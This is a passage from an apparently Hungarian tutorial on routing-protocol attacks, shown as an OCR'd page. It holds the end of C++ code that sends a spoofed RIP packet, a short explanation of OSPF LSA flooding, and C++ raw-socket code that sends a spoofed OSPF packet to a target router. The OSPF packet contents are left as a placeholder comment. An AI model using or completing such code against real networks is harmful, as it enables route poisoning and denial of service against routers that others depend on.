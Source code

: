```cpp
    } else {
        std::cout << "Spoofed RIP packet sent!" << std::endl;
    }

    close(sockfd);
}

int main() {
    sendSpoofedRIPPacket();
    return 0;
}
```

**2. Open Shortest Path First (OSPF) támadások**

Az OSPF egy link-state protokoll, amely kifinomultabb és robusztusabb, ámde itt is vannak ismert támadható pontok.

**LSA felfújás (LSA Flooding)**

A támadók hamis LSA (Link State Advertisement) üzeneteket küldhetnek, hogy elárasszák és túlterheljék az OSPF irányítótábláját.

**C++ példakód az LSA felfújás végrehajtásához**:
```cpp
#include <iostream>
#include <fstream>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <sys/socket.h>
#include <unistd.h>
#include <cstring>

void sendSpoofedOSPFPacket() {
    int sockfd = socket(AF_INET, SOCK_RAW, IPPROTO_OSPFIGP);
    if (sockfd < 0) {
        perror("Error creating socket");
        return;
    }

    int on = 1;
    if (setsockopt(sockfd, IPPROTO_IP, IP_HDRINCL, &on, sizeof(on)) < 0) {
        perror("setsockopt");
        close(sockfd);
        return;
    }

    struct sockaddr_in dest_addr;
    memset(&dest_addr, 0, sizeof(dest_addr));
    dest_addr.sin_family = AF_INET;
    inet_pton(AF_INET, "192.168.1.1", &dest_addr.sin_addr);  // Target OSPF router IP

    // Construct OSPF LSA packet
    char ospf_packet[512];
    memset(ospf_packet, 0, sizeof(ospf_packet));
    // Fill with necessary headers and fake LSA information

    if (sendto(sockfd, ospf_packet, sizeof(ospf_packet), 0, (struct sockaddr*)&dest_addr, sizeof(dest_addr)) < 0) {
        perror("Error sending packet");
    } else {
        std::cout << "Spoofed OSPF packet sent!" << std::endl;
    }

    close(sockfd);
```